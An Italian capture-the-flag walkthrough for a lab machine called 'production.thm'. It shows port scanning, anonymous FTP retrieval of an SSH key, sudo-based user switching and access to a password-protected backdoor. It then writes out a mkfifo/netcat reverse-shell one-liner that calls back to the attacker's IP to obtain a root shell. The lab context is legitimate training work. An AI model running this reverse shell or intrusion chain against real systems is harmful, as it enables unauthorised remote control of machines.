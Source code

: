 # PRODUCTION

### enum
facciamo uno scan delle porte
```bash
nmap production.thm -sV -sC 
```

troviamo un ftp con accesso anonimo vediamo cosa c'è dentro

## FTP

```bash
ftp Anonymous@production.thm
```
ottimo abbiamo una fleg e delle credenziali ssh per ashu

prendiamo l'id_rsa

```bash
get id_rsa
```

ovviamente diamogli i permessi giusti 

```bash
chmod 600 id_rsa
```
colleghiamoci in ssh

## SSH
```bash
ssh -i id_rsa ashu@10.10.224.175
```

ottimo facciamo privesc

## privesc

```bash
sudo -l
```
OTTIMO possiamo switchare utente come skidy

```bash
sudo su skidy
```

andiamo nella directory di skidy

abbiamo trovato una directory che si chiama homework. entriamoci!

abbiamo un file python, leggiamo cosa c'è scritto

ottimo c'è un password per un backdoor sulla porta 9001 a quanto pare 

vediamo skidy cosa può eseguire come sudo

```bash
sudo -l
```

possiamo eseguire il comendo git come sudo(andate a guardare su gtfo.bins) 


ora pensiamo alla backdoor

## backdoor

tramite la shell root colleghiamoci alla porta 9001
```bash
nc 10.10.224.175 9001
```

usiamo la password trovata nel file python di prima

bene siamo dentro 

usiamo un reverse shell per la porta 9002
```bash
echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ipvostro portainascolto >/tmp/f" > /tmp/a; chmod +x /tmp/a
```
apriamo un altro terminale e mettiamoci in ascolto sulla porta 9002
```bash
nc production.thm 9002
```
poi apriamo un altro terminale e mettiamoci in ascolto sulla reverse shell che abbiamo creato prima 

```bash
nc -lvnp porta scelta nella reverse shell
```

sul primo terminale qundi quello avviato sulla porta 9002 mandiamo il comando
```bash
/tmp/./a
```
questo comando avvierà una reverse shell con privilegi di root sul votro terminale su cui vie eravati messi in ascolto



